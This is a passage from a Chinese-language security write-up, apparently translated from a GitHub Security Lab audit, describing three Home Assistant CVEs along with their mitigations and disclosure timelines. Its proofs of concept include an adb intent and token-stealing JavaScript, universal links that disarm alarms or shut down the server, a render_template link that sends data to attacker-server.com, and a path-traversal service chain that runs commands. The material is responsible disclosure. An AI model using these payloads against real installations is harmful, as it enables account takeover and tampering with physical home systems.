        webView.evaluateJavascript(script, null)
    }
}
```

在这种情况下，攻击者可以通过将一个任意函数作为 callback 参数来创建一个漏洞，目的是窃取用户的认证令牌。因此，这个漏洞可能导致在 WebView 中执行任意 JavaScript 代码，有限的执行原生代码，以及潜在的凭证盗窃风险。

### Poc

针对 MyActivity 的一个 Intent 可以用于启动一个本地攻击，也就是说，由安装在 Home Assistant Companion for Android 同一设备上的恶意或受损应用程序发起的攻击。

```plain
adb shell am start -n
io.homeassistant.companion.android.debug/io.homeassistant.companion.android.launch.my.MyActivity -d '"https://attacker.acme/exploit"' -a android.intent.action.VIEW
```

这将会重定向最初的 WebView 到攻击者的网站[https://attacker.acme/exploit，在那里它可以提供类似于以下内容的服务或内容：](https://attacker.acme/exploit%EF%BC%8C%E5%9C%A8%E9%82%A3%E9%87%8C%E5%AE%83%E5%8F%AF%E4%BB%A5%E6%8F%90%E4%BE%9B%E7%B1%BB%E4%BC%BC%E4%BA%8E%E4%BB%A5%E4%B8%8B%E5%86%85%E5%AE%B9%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%88%96%E5%86%85%E5%AE%B9%EF%BC%9A)

```plain
<html>
    <head>
        <script>
document.location = "homeassistant://navigate/entityId:\"}}));externalApp.getExternalAuth('{\"callback\": \"function func(a,b){alert(b.access_token);};func\", \"force\": \"true\"}');//";
        </script>
    </head>
    <body>
        <h1>Nothing to see here</h1>
    </body>
</html>
```

请注意，重定向包括了`homeassistant://navigate/`，以利用`shouldOverrideUrlLoading`函数并访问`WebViewActivity`。此外，它添加了`entityId`来利用跨站脚本（XSS）漏洞。在注入后，有效 payload 如下所示（为了清晰，添加了换行）：

```plain
document.querySelector("home-assistant").dispatchEvent(new CustomEvent("hass-more-info", {
  detail: {
    entityId: ""
  }
}));
externalApp.getExternalAuth('
  {
    "callback": "function func(a,b){ alert(b.access_token); }; func",
    "force": "true"
  }
');//}}))
Since callback is itself
```

由于 callback 参数本身被注入到另一个 JavaScript 代码块中，因此最终的恶意代码将呈现如下形式：

```plain
function func(a, b) {
    alert(b.access_token);
}
func(true, { access_token: "(user access token)", expires_in: (expiration int) } )
```

这段代码会在一个弹出的警告对话框中显示用户的外部认证访问令牌。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111242-943132ca-ce0b-1.png)

请注意，CodeQL 的`java/android/unsafe-android-webview-fetch`查询会检测到这个漏洞，并发出警报。

### 缓解方法

Home Assistant 团队迅速通过多种方式解决了这个漏洞。

Close the main entry point by not allowing loading URLs with a host other than my.home-assistant.io. Validate entityId: to conform with the expected format disallowing arbitrary Javascript on its path. For the initial load, validate the constructed URL matches the server base URL (if not opening the URL outside the WebView).

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-09-10: 修复在 2023.9.2 版本中发布。
-   2023-09-13: CVE-2023-41898 被分配给这个问题。
-   2023-10-20: 发布了安全建议或公告。

## 十一、iOS 和 macOS 原生应用程序中的客户端请求伪造:CVE-2023-44385/GHSL-2023-161

iOS 和 macOS 的伴侣应用程序具有一种功能，允许用户通过 URL 处理程序调用服务和渲染模板。这些 URL 处理程序以`homeassistant://scheme`开头，可以触发调用服务（例如`homeassistant://call_service`、`homeassistant://x-callback-url/call_service`）或渲染模板（例如`homeassistant://x-callback-url/render_template`）等动作。

当用户点击这些链接时，已经与 Home Assistant 认证的伴侣应用程序会向 Home Assistant 服务器发送请求，以执行这些操作。这项功能也适用于 Siri 或 Shortcuts 应用程序使用的 App Intents，这些应用程序可以调用任何服务或渲染任何模板。攻击者可以创建一个误导性的链接或二维码，诱骗受害者点击它。

尽管点击一个`homeassistant://` URL 会提示用户在 Home Assistant 中打开它之前进行确认，但还有其他更隐蔽的攻击方法，例如使用通用链接。Home Assistant 允许使用通用链接，这些链接在`https://www.home-assistant.io/ios/` URL 下注册。这允许我们使用`https://`链接调用任何`homeassistant://` URLs，使这些有效负载看起来不那么可疑。

例如，如果我们分享链接`https://www.home-assistant.io/ios/?url=homeassistant://%2F%2Fcall_service%2Flight.turn_on%3Fentity_id%3Dall`在 Slack 上，那些点击这个看似无害的链接（因为它托管在`www.home-assistant.io`上）的不知不觉的受害者将会无意中打开他们所有的房间的灯。类似的方法也可以用来解除警报（`homeassistant://call_service/alarm_control_panel.alarm_disarm`）或通过扫描二维码关闭 Home Assistant 服务器（\`homeassistant://call\_service/hassio.host\_shutdown）

在某些情况下，攻击者可能需要找到特定服务的实体 ID 或区域名称。在这些情况下，攻击者可以利用`render_template`动作来运行任意模板，并将响应发送到他们自己的服务器：`homeassistant://x-callback-url/render_template?x-success=https:%2F%``2Fattacker-server.com``&template.`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111305-a2254c4a-ce0b-1.png)

在 Slack 上点击上述链接将触发操作，而无需向用户请求任何确认。这种攻击也可以通过二维码进行。当 iPhone 的二维码阅读器检测到 Home Assistant URL 时，它会事先显示一个黄色横幅警告用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111316-a8edd6a0-ce0b-1.png)

然而，攻击者有能力使用重定向来隐藏最终 URL，使其对二维码阅读器来说看起来不那么可疑。例如：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111334-b36c96de-ce0b-1.png)

同样的漏洞也适用于使用 Siri 或 Shortcuts 应用程序的 App Intents。攻击者可以潜在地将恶意服务调用隐藏在 Shortcuts 库中流行的快捷方式中。因此，当这些快捷方式被执行时，相应的服务将被调用。

### 缓解方法：

Home Assistant 现在要求用户对任何从 URL 动作触发的操作进行确认。现在，当你点击一个`https://www.home-assistant.io/ios/?url=homeassistant://%2F%2Fcall_service%2Flight.turn_on%3Fentity_id%3Dall` URL 时，Home Assistant 将显示一个确认对话框，内容如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111345-ba38cba4-ce0b-1.png)

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-10-04: CVE-2023-44385 被分配给这个问题。
-   2023-10-10: 修复在 2023.7 版本中发布。
-   2023-10-20: 发布了安全建议或公告。

### 重新分析攻击面

在识别了之前提到的漏洞之后，我们不得不重新评估我们的假设并确定是否可以扩大攻击面。看起来我们现在可以操纵用户调用任意服务（call\_service）或触发任意事件（fire\_event）。这意味着即使后端处理程序需要认证请求，攻击者仍然可以通过利用之前提到的客户端请求伪造来访问这些服务。为了分析这些新的不受信任的数据源，我们使用了 CodeQL 来模拟服务调用处理程序作为不受信任的数据源，并对 Home Assistant 代码进行了另一次扫描。结果，我们发现了一个新的发现。

## 十二、Home Assistant Core 中的部分服务器端请求伪造:CVE-2023-41899/GHSL-2023-162

Home Assistant 中的 hassio.addon\_stdin 服务存在一个漏洞，允许部分服务器端请求伪造（SSRF）。能够调用此服务的攻击者（例如，通过 GHSL-2023-161 漏洞）能够发送一个 POST 请求，以调用任何 Supervisor REST API 端点。

hassio.addon\_stdin 服务由 Home Assistant Supervisor 中的 HASSIO 服务处理程序处理。

```plain
async def async_service_handler(service: ServiceCall) -> None:
    """Handle service calls for Hass.io."""
    api_endpoint = MAP_SERVICE_API[service.service] # [1]

    data = service.data.copy()
    addon = data.pop(ATTR_ADDON, None)
    slug = data.pop(ATTR_SLUG, None)
    payload = None

    # Pass data to Hass.io API
    if service.service == SERVICE_ADDON_STDIN:
        payload = data[ATTR_INPUT]
    elif api_endpoint.pass_data:
        payload = data

    # Call API
    # The exceptions are logged properly in hassio.send_command
    with suppress(HassioAPIError):
        await hassio.send_command(               # [2]
            api_endpoint.command.format(addon=addon, slug=slug),
            payload=payload,
            timeout=api_endpoint.timeout,
        )
```

能够调用此服务的攻击者将能够控制 service 变量，包括其 data 属性，因此也将控制 addon 和 payload 键/值。

在调用 hassio.addon\_stdin 服务时，service.service 的值将是 hassio.addon\_stdin，并且从 MAP\_SERVICE\_API(\[1\]) 检索的 api\_endpoint.command 的值将是/addons/{addon}/stdin。当调用 send\_command(\[2\]) 时，攻击者将能够控制 addon 格式字符串参数，因此可以改变 send\_command(code) 函数中传递的 URL 值。

```plain
async def send_command(
    self,
    command,
    method="post",
    payload=None,
    timeout=10,
    return_text=False,
    *,
    source="core.handler",
):
    """Send API command to Hass.io.

    This method is a coroutine.
    """
    try:
        request = await self.websession.request(
            method,
            f"http://{self._ip}{command}",
            json=payload,
            headers={
                aiohttp.hdrs.AUTHORIZATION: (
                    f"Bearer {os.environ.get('SUPERVISOR_TOKEN', '')}"
                ),
                X_HASS_SOURCE: source,
            },
            timeout=aiohttp.ClientTimeout(total=timeout),
        )
        ...
```

在这段代码中，`send_command`函数向 Supervisor API 发送一个经过认证的 application/json POST 请求。这使得攻击者可以操纵请求的路径和正文。

### Poc

```plain
data: {"addon": "../store/addons/a0d7b954_ssh/install?", "input": {}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/security?", "input": {"protected":false}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/options?", "input": {"options":{"init_commands": ["touch /tmp/pwned-ha", "ls /tmp"], "packages": [], "share_sessions": false, "zsh": true, "ssh": {"
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/restart?", "input": {}}
```

在第一个服务调用中，我们使用路径遍历来访问`/store/addons/<id>/install`端点，并通过使用`?`来丢弃注入点（`/stdin`）添加的后缀，将其作为查询参数处理。通过串联调用这些服务，我们将在 Core 容器中创建一个名为`/tmp/pwned-hai`的新文件。

在初始服务调用中，我们使用路径遍历技术来访问/store/addons/<id>/install 端点。我们还利用？来忽略在注入点（/stdin）附加的额外后缀，将其作为查询参数处理。通过将这些服务串联在一起，我们将在 Core 容器中生成一个名为/tmp/pwned-hai 的新文件。</id>

这个漏洞可以通过 CSRF（GHSL-2023-161）触发。执行这四个连续的 call\_service 命令的最简单方法是使用一个恶意的 Apple 快捷方式，例如：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111432-d5f3288a-ce0b-1.png)

这些操作可以隐藏在一个更长且目的为其他操作的快捷方式中（例如，ChatGPT 集成），并与受害者共享。

### 缓解方法

针对一组封闭的有效 addon slug 对 addon slug 进行有效性验证。

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-09-06: 修复在 2023.9 版本中发布。
-   2023-09-13: CVE-2023-41899 被分配给这个问题。
-   2023-10-20: 发布了安全建议或公告。

这次团队审计通过讨论、头脑风暴、威胁建模等多种方式的积极参与而完成。以下是发现本文博客中提到的每个漏洞的个人名单。

## 十三、致谢漏洞提交人

-   GHSL-2023-142: Tony Torralba (@atorralba)
-   GHSL-2023-161: Alvaro Muñoz (@pwntester)
-   GHSL-2023-162: Alvaro Muñoz (@pwntester)
-   GHSL-2023-163: Peter Stöckli (@p-)
-   GHSL-2023-164: Peter Stöckli (@p-)
-   GHSL-2023-179: Jorge Rosillo (@jorgectf) and Peter Stöckli (@p-)

## 十四、Home Assistant 是当前智能家居的核心

Home Assistant 是一个强大的软件，它作为全球智能家居的中心枢纽。它协调和控制我们家中众多互联的设备，使其成为必不可少的指挥中心，其安全性同样至关重要。系统的安全受到威胁可能导致严重后果，包括解除我们的警报系统、干扰我们的供暖和制冷系统，或通过安全摄像头侵犯我们的隐私。这些可能性凸显出保护我们的数字家园不受侵害的重要性。

### 保护智能家居安全建议

为了保护 Home Assistant 的安全，您可以采取以下措施：

1.  保持软件更新：定期将 Home Assistant 更新到最新的安全补丁和错误修复，以防止已知的漏洞。
2.  确保远程访问安全：如果您需要远程访问 Home Assistant，请使用如设置 VPN 或使用 SSH 或 HTTPS 等加密协议的安全方法。
3.  网络分段：将您的智能家居设备和 Home Assistant 服务器放在不同的网络段或 VLAN 上，以限制任何潜在的妥协仅限于某些设备或服务。
4.  禁用不必要的功能：在 Home Assistant 中禁用任何不必要的集成或插件，以减少攻击面和潜在的漏洞。
5.  使用可信的组件和集成：只使用来自信誉良好的来源且经过安全审计的组件和集成。

通过遵循这些建议，您可以增强 Home Assistant 的安全性，并更好地保护您的智能家居免受潜在风险的威胁。

对 Home Assistant 的安全代码审计揭示了几个漏洞和潜在的安全问题，解决这些问题对于确保 Home Assistant 的安全运行和保护用户免受智能家居潜在风险至关重要。

## 十五、文章结论

我们感谢 Home Assistant 团队对我们报告的漏洞的迅速回应和合作解决。他们对安全的承诺以及为解决这些问题所采取的迅速行动，使我们深受感动，并有助于增强对 Home Assistant 平台和社区的信任！敬请期待其他家庭服务器软件的代码审计。在此之前，请保持环境安全！
